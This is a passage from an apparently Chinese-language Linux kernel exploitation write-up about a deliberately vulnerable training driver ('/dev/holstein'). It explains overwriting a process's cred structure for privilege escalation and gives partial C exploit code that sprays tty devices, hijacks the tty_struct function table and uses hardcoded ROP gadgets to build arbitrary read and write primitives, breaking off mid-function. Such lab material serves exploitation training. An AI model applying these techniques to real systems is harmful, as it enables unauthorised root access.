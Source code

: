 ```c
```

这里可以看到一个cred结构体指针，还有一个char型数组comm。这个comm里面就是本进程的name。

那么利用AAR搜寻目标进程的name，再利用AAW更改对应进程的cred结构体即可完成提权

一个测试用的exp如下：

```c
#include <fcntl.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ioctl.h>
#include <sys/prctl.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <unistd.h>

#define OPS_OFFSET 0xc38880
#define SPRAY_NUM 100
#define VULN_DRV "/dev/holstein"

uint64_t kernel_base = 0;
uint64_t base = 0xffffffff81000000;
uint64_t g_buf = 0;
int global_fd = 0;
int spray[SPRAY_NUM];
char buf[0x500];
int cache_fd = -1;

// uint64_t stack_pivot = 0xffffffff81516264; //no SMEP
uint64_t mov_rdx_rcx_ret = 0xffffffff811b7db9;
uint64_t mov_eax_rdx_ret = 0xffffffff8118a285;

void AAW32(uint64_t rdx, unsigned int rcx) {
  uint64_t *p = (uint64_t *)&buf;
  *(p + 0xc) = mov_rdx_rcx_ret - base + kernel_base; // 设置触发任意写的gadget

  *(uint64_t *)&buf[0x418] = g_buf; // 劫持tty_struct的函数表为g_buf
  write(global_fd, buf, 0x420);
  for (int i = 0; i < SPRAY_NUM; i++) {
    ioctl(spray[i], rcx, rdx); // arg1:tty设备 arg2:rcx arg3：rdx
  }
}

unsigned int AAR32(uint64_t rdx) {
  if (cache_fd == -1) { // 设置这个cache_fd是为了避免多次遍历spra数组
    uint64_t *p = (uint64_t *)&buf;
    *(p + 0xc) = mov_eax_rdx_ret - base + kernel_base; // 设置触发任意写的gadget

    *(uint64_t *)&buf[0x418] = g_buf; // 劫持tty_struct的函数表为g_buf
    write(global_fd, buf, 0x420);

    for (int i = 0; i < SPRAY_NUM; i++) {
      int v = ioctl(spray[i], 0, rdx);
      if (v != -1) {
        cache_fd = spray[i];
        return v;
      }
    }
  } else {
    return ioctl(cache_fd, 0, rdx);
  }
```